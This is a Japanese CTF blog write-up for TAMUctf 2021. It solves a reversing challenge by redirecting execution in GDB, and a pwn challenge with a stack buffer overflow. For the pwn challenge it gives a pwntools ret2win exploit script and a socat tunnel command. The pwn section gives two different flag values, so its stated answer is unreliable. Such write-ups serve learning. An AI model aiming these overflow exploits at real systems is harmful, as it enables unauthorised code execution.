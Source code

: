 ```yaml
---
title: "TAMUctf 2021 Writeup"
date: 2021-05-04T15:30:00+09:00
lastmod: 2021-05-04T15:30:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Ftamuctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://tamuctf.com/challenges](https://tamuctf.com/challenges)
<br /><br />
去年のTAMU CTF 2020 ([Writeup](https://captureamerica.github.io/writeups/post/tamuctf_2020/)) は Network Pentest のチャレンジがあったりしたんですが、今年はなかったですね。残念〜。

<br />

800 points取りました。順位は、94thだったみたいです。（CTF TIME情報）

<br />

以下が解いたチャレンジです。

<img src="https://captureamerica.github.io/writeups/img/tamuctf_2021_Solved.png" alt="tamuctf_2021_Solved.png">

<br />


<br /><br />
## [Reversing]: Acrylic (100 points)
- - -
### Challenge
> This is an easy challenge. There is a flag that can be printed out from somewhere in this binary. Only one problem: There's a lot of fake flags as well.
<br /><br />
Hint: Try using GDB

Attachment:

- acrylic (ELF 64bit)


<br />
### Solution
問題文にあるように Fake flag が沢山あるため、stringsコマンドは使えません。<br /> (いちおう正解フラグもstringsで出てくるので、ひたすらSubmitしたら、そのうち当たりますけど。。)

<br />
GDBを使う前に、Ghidraでコードを見てみます。

```C
undefined8 main(void)
{
  puts("look at the code");
  return 0;
}


char * get_flag(void)
{
  int local_10;
  uint local_c;
  
  local_10 = 0x7b;
  local_c = 0;
  while (local_c < 0x7e4) {
    local_10 = ((local_10 + 1) * local_10) % 0x7f;
    local_c = local_c + 1;
  }
  return flags + (long)local_10 * 0x40;
}
```

<br />
main()は文字列を表示して終了するだけの関数です。

get_flag()は関数名から予想するに、flagを取得するための関数です。

<br />

GDBを使ってやることは、

1. main() で一旦break
2. get_flag() にもbreakをかけて、get_flag() へjump
3. returnする直前にbreakをかけて、戻り値を確認

となります。get_flag() 自体は flag を printf しないので、GDB内で値を確認する必要があります。

<br />

<pre>
gef➤ b main
gef➤ b get_flag
gef➤ jump get_flag
gef➤ disas get_flag
gef➤ b *0x00005555555546ab
gef➤ c

$rax   : 0x0000555555756620  →  "gigem{counteradvise_orbitoides}"
</pre>

<br />

Flag: `gigem{counteradvise_orbitoides}`



<br /><br />
<br /><br />
## [Pwn]: Handshake (150 points)
- - -
### Challenge
> Attack this binary and get the flag!
<br /><br />
openssl s_client -connect tamuctf.com:443 -servername handshake -quiet

Attachment:

- handshake (ELF 32bit)


<br />
### Solution
まず、問題文に出てくる openssl コマンドについてですが、News (announcement) で以下が出ていました。

<img src="https://captureamerica.github.io/writeups/img/tamuctf_2021_openssl.png" alt="tamuctf_2021_openssl.png">

<br />
socatでトンネルを確立したら、あとはローカルでやってるのと同じ感覚でできるようです。

<br /><br />

まずは、checksecを実行してみます。PIEは無効です。

<pre>
$ checksec handshake
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
</pre>

<br />
vuln() 関数でBOFができます。他に、win()関数があるので、BOFを起こしてwin()に飛ぶだけです。

```C
void vuln(void)

{
  char local_2c [36];
  
  printf("Whats the secret handshake? ");
  fflush((FILE *)0x0);
  gets(local_2c);
  putchar(10);
  return;
}
```

<br />
GDBでwin()のアドレスを確認。

<pre>
gef➤  i func
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  printf@plt
0x08049040  fflush@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  puts@plt
0x08049080  __libc_start_main@plt
0x08049090  fopen@plt
0x080490a0  putchar@plt
0x080490b0  _start
0x080490f0  _dl_relocate_static_pie
0x08049100  __x86.get_pc_thunk.bx
0x08049110  deregister_tm_clones
0x08049150  register_tm_clones
0x08049190  __do_global_dtors_aux
0x080491c0  frame_dummy
0x080491c2  win   <<<
0x080492a0  lose
0x080492cb  vuln
0x0804931e  main
</pre>

<br />

書いたコード。

```Python
#!/usr/bin/env python
from pwn import *

s = remote('127.0.0.1', 4444)

payload = ''
payload += b'A' * 36
payload += b'B' * 8
payload += p32(0x080491c2)  # win()

s.sendlineafter("Whats the secret handshake? ", payload)
print s.recv()
```

<br />

結果：

<pre>
$ socat -d TCP-LISTEN:4444,reuseaddr,fork EXEC:'openssl s_client -connect tamuctf.com\:443 -servername handshake -quiet'

$ ./handshake_solve.py 
[+] Opening connection to 127.0.0.1 on port 4444: Done

Correct! gigem{r37urn_c0n7r0l1337}
</pre>

<br>

Flag: `gigem{z1pT4st1c__$kiLl$$$}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

